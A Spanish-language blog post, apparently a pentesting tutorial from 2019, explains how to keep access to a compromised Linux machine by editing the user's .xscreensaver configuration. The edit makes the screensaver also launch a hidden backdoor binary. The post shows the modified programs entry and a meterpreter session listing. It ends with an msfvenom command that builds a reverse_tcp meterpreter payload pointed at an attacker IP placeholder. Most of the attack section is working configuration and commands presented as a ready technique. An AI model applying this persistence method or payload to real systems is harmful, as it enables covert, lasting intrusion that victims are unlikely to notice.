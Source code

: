 +++
date = "2019-04-22"
title = "Persistencia en sistemas Linux a través de XScreenSaver"
author = "Javier Olmedo"
toc = false
+++

Después de la explotación con éxito de un sistema, debemos de **obtener persistencia** en el mismo, este es uno de los pasos más importantes de las fases del pentesting y que, generalmente, ocasiona más inconvenientes, ya que, **podemos perder el acceso al sistema** si este se reinicia, existen problemas de red o se edita el archivo utilizado como puerta trasera (backdoor).

Esta manera de obtener persistencia, la descubrí leyendo write-ups de CTFs, en concreto, de uno realizado por [iamrastating](https://twitter.com/iamrastating).

Este método, consiste en **modificar el archivo de configuración** de XScreenSaver, un paquete muy común de salvapantallas para Linux, utilizar XScreenSaver para obtener persistencia tiene las siguientes ventajas:

- Es muy poco probable que los usuarios editen el archivo de configuración, lo que significa que hay muy pocas posibilidades de que descubran nuestra shell.

- Existen una probabilidad muy alta de que un usuario haga saltar el salvapantallas, con lo que obtendríamos nuestra shell.

A continuación, se describen los pasos a realizar.

## Identificar si XScreenSaver está instalado en el sistema

Una de las maneras más rápidas de determinar si XScreenSaver está instalado en el sistema, es **buscar el archivo de configuración** (el cual necesitaremos modificar). Este archivo lo podemos encontrar en el directorio del usuario y se llama `.xscreensaver`.

```txt
meterpreter > ls -S xscreensaver
Listing: /home/jolmedo
======================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  8452  fil   2019-04-17 13:46:17 +0200  .xscreensaver
```

En caso de no encontrar este archivo, no significa que XScreenSaver no esté instalado, sino que el usuario no ha configurado sus preferencias del salvapantallas, en ese caso, se puede crear un archivo nuevo de configuración.

Otros posibles archivos a buscar en la máquina comprometida, serían los siguientes:

- xscreensaver
- xscreensaver-command
- xscreensaver-demo
- xscreensaver-getimage
- xscreensaver-getimage-file
- xscreensaver-getimage-video
- xscreensaver-gl-helper
- xscreensaver-text

Supongamos que durante la explotación, hemos tenido suerte y XScreenSaver se encuentra instalado, si examinamos el archivo de configuración, podemos ver **tres parámetros** importantes:

- `Timeout`: cuánto tiempo debe permanecer inactiva la sesión antes de que se muestre el protector de pantalla.
- `Mode`: si se usa o no un solo protector de pantalla, o si utiliza salvapantallas al azar.
- `Selected`: protector de pantalla seleccionado.

En el siguiente cuadro, se puede observar que el `timeout` está establecido en `0:01:00`, lo que significa que el protector de pantalla se ejecutará después de un minuto de inactividad.

```txt
# XScreenSaver Preferences File
# Written by xscreensaver-demo 5.36 for jolmedo on Wed Apr 17 13:46:17 2019.
# https://www.jwz.org/xscreensaver/

timeout:	0:01:00
cycle:		0:10:00
lock:		False
lockTimeout:	0:00:00
passwdTimeout:	0:00:30
```

Si bajamos un poco más, podemos ver que el parámetro `mode` tiene el valor `one`, eso nos indica que tiene únicamente un protector de pantalla, también podemos observar que la opción `selected` está en la posición `2`, si tenemos en cuenta que la matriz empieza por `0`, `attraction` se ha seleccionado como protector de pantalla.

```txt
mode:		one
selected:	2

textMode:	url
textLiteral:	XScreenSaver
textFile:	
textProgram:	fortune
textURL:	http://feeds.feedburner.com/ubuntu-news

programs:								      \
				maze -root				    \n\
- GL: 				superquadrics -root			    \n\
				attraction -root			    \n\
				blitspin -root				    \n\
```

## Agregar nuestra shell al archivo de configuración

Si nos hemos percatado, `programs` contiene una matriz de cadenas que incluye los nombres de los protectores de pantalla que están disponibles, pero no sólo eso, sino los **comandos básico que se ejecutarán**. En XScreenSaver, cada protector de pantalla es un binario separado que, cuando se ejecuta, se muestra a pantalla completa.

En la configuración que vimos anteriormente, cuando la pantalla se pone en blanco, se ejecuta el comando:

```bash
/usr/lib/xscreensaver/attraction -root
```

Conociendo esto, podríamos inyectar un comando final para lanzar nuestra shell junto al protector de pantalla, como tengo la shell ubicada en `/home/jolmedo/.local/share/shell64.elf`, modifico el archivo xscreensaver para lanzarlo justo después de la linea `attraction -root`, el fichero de configuración ahora se vería así:

```txt
mode:		one
selected:	2

textMode:	url
textLiteral:	XScreenSaver
textFile:	
textProgram:	fortune
textURL:	http://feeds.feedburner.com/ubuntu-news

programs:								      \
				maze -root				    \n\
- GL: 				superquadrics -root			    \n\
              			attraction -root |                            \
               			(/home/jolmedo/.local/share/shell64.elf&)   \n\
				blitspin -root				    \n\
```

Debemos tener en cuenta dos cosas en este cambio:

- La primera es que el `\n\` que estaba al final de `attraction`, ha sido reemplazado por una sola barra invertida `\`, esto indicaría al programa que la cadena continúa en una segunda línea. El `\n` es el delimitador y, por lo tanto, sólo aparece al final del comando completo.

- Lo segundo a tener en cuenta, es el uso de `|` y `&`, la shell se llama de esta manera para garantizar que se inicie junto con el binario de `attraction` y que no detenga la ejecución al forzarla en segundo plano.

A continuación, se muestra una prueba de concepto, en la parte derecha, se encuentra un equipo que hace saltar el protector de pantalla, y en la parte izquierda, puede observarse como el equipo atacante recibe una shell reversa.

[![/images/persistencia-en-sistemas-linux-a-traves-de-xscreensaver/persistencia-en-sistemas-linux-a-traves-de-xscreensaver_001.gif](/images/persistencia-en-sistemas-linux-a-traves-de-xscreensaver/persistencia-en-sistemas-linux-a-traves-de-xscreensaver_001.gif)](/images/persistencia-en-sistemas-linux-a-traves-de-xscreensaver/persistencia-en-sistemas-linux-a-traves-de-xscreensaver_001.gif)

Prueba de concepto de obtención de shell mediante la modificación de XScreenSaver

## NOTA

La shell creada en el post ha sido generado por **msfvenom**.

```bash
msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp LHOST=[IP-ATACANTE] LPORT=4444 -f elf > shell64.elf
```

Hasta la próxima!!